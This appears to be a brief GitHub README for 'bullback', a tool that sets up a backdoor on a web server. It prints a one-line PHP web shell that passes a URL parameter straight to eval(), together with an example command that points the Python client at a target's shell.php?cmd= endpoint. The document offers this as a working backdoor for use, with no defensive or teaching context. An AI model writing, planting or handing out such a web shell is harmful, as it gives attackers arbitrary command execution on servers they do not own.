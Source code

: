 bullback
========

It generates an effective rear connection with eval()

```php
<?php eval($_GET["cmd"]); ?>
```

```
Example: python bullback.py http://target.com/shell.php?cmd=
```

There is not any documentation at the moment, but the code is really easy to understand.

-------------

Copyright, 2014 by [José Pino](http://twitter.com/jofpin)

-------------
